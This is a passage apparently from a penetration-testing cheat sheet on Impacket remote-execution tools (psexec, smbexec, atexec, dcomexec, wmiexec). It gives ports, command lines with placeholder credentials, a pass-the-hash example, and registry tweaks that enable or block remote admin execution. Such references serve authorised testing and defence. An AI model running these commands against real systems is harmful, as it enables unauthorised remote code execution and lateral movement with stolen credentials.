 | Method | Port Used | Admin Required |
| --- | --- | --- |
| psexec.py | tcp/445 | Yes |
| smbexec.py | tcp/445 | No  |
| atexec.py | tcp/445 | No  |
| dcomexec.py | tcp/135, tcp/445, tcp/49751 (DCOM) | No  |
| wmiexec.py | tcp/135, tcp/445, tcp/50911 (Winmgmt) | Yes |

- `psexec`: equivalent of Windows PSEXEC using RemComSvc binary.
    
    ```ps1
    psexec.py DOMAIN/username:password@10.10.10.10
    ```
    
- `smbexec`: a similar approach to PSEXEC w/o using RemComSvc
    
    ```ps1
    smbexec.py DOMAIN/username:password@10.10.10.10
    ```
    
- `atexec`: executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
    
    ```ps1
    atexec.py DOMAIN/username:password@10.10.10.10
    ```
    
- `dcomexec`: a semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints
    
    ```ps1
    dcomexec.py DOMAIN/username:password@10.10.10.10
    ```
    
- `wmiexec`: a semi-interactive shell, used through Windows Management Instrumentation. First it uses ports tcp/135 and tcp/445, and ultimately it communicates with the Winmgmt Windows service over dynamically allocated high port such as tcp/50911.
    
    ```ps1
    wmiexec.py DOMAIN/username:password@10.10.10.10
    wmiexec.py DOMAIN/username@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    ```
    

To allow Non-RID 500 local admin accounts performing Wmi or PsExec, execute:
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /f /d 1`
To prevent RID 500 from being able to WmiExec or PsExec, execute:
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v FilterAdministratorToken /t REG_DWORD /f /d 1`

### PSExec

